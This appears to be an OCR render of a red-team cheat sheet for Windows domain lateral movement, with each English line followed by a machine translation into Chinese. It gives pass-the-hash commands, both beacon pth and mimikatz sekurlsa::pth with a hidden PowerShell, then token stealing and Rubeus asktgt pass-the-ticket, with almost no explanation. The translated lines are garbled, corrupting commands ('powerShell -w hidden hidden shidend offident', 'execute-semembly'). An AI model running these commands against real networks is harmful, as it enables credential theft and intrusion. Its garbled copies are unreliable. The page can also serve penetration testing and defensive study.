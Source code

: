 ## Pass the hash

##通过哈希
## This modification process requires patching of LSASS memory which is a high-risk action, requires local admin privileges and not all that viable if Protected Process Light (PPL) is enabled.

##此修改过程需要对LSASS存储器进行修补，这是一个高风险动作，需要本地管理员特权，而如果启用了受保护的过程灯（PPL），则不可行。
pth [pid] [arch] [DOMAIN\user] [NTLM hash]

PTH [PID] [ARCH] [域\ user] [ntlm hash]
pth [DOMAIN\user] [NTLM hash]

pth [域\用户] [ntlm hash]

## Pass the hash through mimikatz

##通过mimikatz将哈希传递
mimikatz sekurlsa::pth /user:&#x3C;username> /domain:&#x3C;DOMAIN> /ntlm:&#x3C;NTLM HASH> /run:"powershell -w hidden"

mimikatz sekurlsa :: pth /user：＆＃x3c; username> /domain：＆＃x3c; domain> /ntlm：＆＃x3c; ntlm hash> /run> /run：“ powerShell -w hidden hidden shidend offident”
## Withuot /run, mimikatz spawn a cmd.exe, if you are running as a user with Desktop, he will see the shell (if you are running as SYSTEM you are good to go)

## withuot /run，mimikatz spawn a cmd.exe，如果您是用桌面的用户运行的，他会看到shell（如果您作为系统运行，您可以使用）
steal_token &#x3C;pid> #Steal token from process created by mimikatz

seth_token＆＃x3c; pid> #steal令牌来自mimikatz创建的过程

## Pass the ticket

##通过票
## Request a ticket
execute-assembly C:\path\Rubeus.exe asktgt /user:&#x3C;username> /domain:&#x3C;domain> /aes256:&#x3C;aes_keys> /nowrap /opsec

execute-semembly c：\ path \ rubeus.exe asktgt /user：＆＃x3c; username> /domain：＆＃x3c; domain> /aes256：＆＃x3c; aes_keys> /nowrap /opsec
## Create a new logon session to use with the new ticket (to not overwrite the compromised one)

##创建一个新的登录会话，以与新票一起使用（不要覆盖受损的票证）
make_token &#x3C;domain>\&#x3C;username> DummyPass
